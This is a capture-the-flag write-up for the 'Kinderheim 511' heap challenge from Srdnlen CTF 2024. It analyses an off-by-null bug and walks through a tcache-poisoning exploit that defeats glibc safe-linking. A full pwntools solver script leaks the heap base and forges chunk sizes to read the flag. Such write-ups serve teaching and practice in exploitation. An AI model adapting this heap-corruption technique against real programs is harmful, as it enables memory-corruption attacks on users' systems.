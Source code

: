 # Kinderheim 511

## challenge information
Surdnlen CTF 2024: [challenge](https://ctf.srdnlen.it/challenges#challenge-13)

`pwn heap 59 solves`
> Long live the expo. No wait, I mixed that one up.
> This is a remote challenge, you can connect to the service with: nc k511.challs.srdnlen.it 1660

## analysis
* vulnerability
  * there is an off-by-null vulnerability  in `implant_user_memory`.
![Screenshot_20250121_120920.png](Screenshot_20250121_120920.png)
  * there is also a vulnerability in `erase_memory`
  * the slot list will not be initialized if there is memory whole.
![Screenshot_20250121_122340.png](Screenshot_20250121_122340.png)
  * exploit flow
    * heap leak
      * alloc 0x40
      * alloc 0x10
      * free 1
      * free 2
      * reallocate 0x40
      * recollect_memory 2
    * tcache poisoning
      * create chunk
      * create chunk
      * remove first chunk
      * reallocate chunk with off by null and rewrite the size of next chunk(0x10 + `inuse flag`).
      * create chunk
      * remove reallocated chunk
      * reallocate chunk with off by null and rewrite the size of next chunk(0x30 + `inuse flag`).
      * the previous operation concat 0x10 chunk and next 0x20 chunk.
      * remove the next of reallocated chunk
      * reallocate chunk and overwrite the next by (heap-base>>12 ^ slot-list)
      * then, tcache will create in the slot-list
      * reallocate with padding and flag address

Why overwrite the next by (heap-base>>12 ^ slot-list) is safe-linking.
```c
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the                                          
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
heap information after rewrite size of chunk (0x21 -> 0x11) by off-by-one vulnerability.

![Screenshot_20250122_142045.png](Screenshot_20250122_142045.png)

heap information after rewrite size of chunk 0x11 -> 0x31
as you can see, purple area's size is 0x31, but purple area+0x30 is located at the next chunk.

![Screenshot_20250122_142220.png](Screenshot_20250122_142220.png)


## solver

```Py
from pwn import *

e = ELF("./k511.elf")
p = e.process()

gdb.attach(p,"""b *main+150
            set max-visualize-chunk-size 0x300
           """)

def create(content: bytes)->int:
    #p.recv()
    print(p.recv())
    p.sendline(b"1")
    p.recvuntil(b"Input your memory (max 64 chars).")
    p.sendline(content)
    p.recvuntil(b"Memorized in slot ")
    slot = int(p.recvline().decode().replace(".","").strip())
    return slot

def delete(slot: int):
    #p.recv()
    print(p.recv())
    p.sendline(b"3")
    p.recv()
    p.sendline(str(slot).encode())

def show(slot: int)->bytes:
    #p.recv()
    print(p.recv())
    p.sendline(b"2")
    p.recvuntil(b"require.\n")
    p.sendline(str(slot).encode())
    p.recvuntil(b"\"")
    res =  p.recvuntil(b"\"",drop=True)
    print(f"show({slot}): {res}")
    return res

def main():
    create(b"1"*0x3f)
    create(b"2"*0xf)
    delete(1)
    delete(2)
    create(b"3"*0x3f)
    heap_leak = u64(show(2).ljust(8,b"\x00"))
    heap_base = heap_leak * 0x1000
    slot_list = heap_base + 0x2a0
    log.info(f"heap_leak: {hex(heap_leak)}")
    log.info(f"heap_base: {hex(heap_base)}")
    log.info(f"slot_list: {hex(slot_list)}")
    create(b"4"*0xf)
    create(b"5"*0x27)
    num0 = create(b"6"*0x10)
    delete(4) #delete "5"*0x27
    num1 = create(b"7"*0x28+b"\x11\x00")
    num2 = create(b"8"*0x17)
    num3 = create(b"c"*0x17)
    #num3 = create(b"b"*0x17)
    delete(num1)
    create(b"9"*0x28+b"\x31\x00")
    delete(num3)
    delete(num2)
    delete(num0)
    #delete(num3)
    num4 = create(b"a"*0x20+p64(heap_base>>12^slot_list))
    #delete(num4)
    #create(b"c"*0x18+p64(0x21))
    create(b"PADDINGPADDING")
    create(b"DEADBEAF"+p64(heap_base + 0x330))
    create(b"PWNAGEPWNAGEPWNAGE")
    show(1)
    p.interactive()


if __name__ == "__main__":
    main()
```
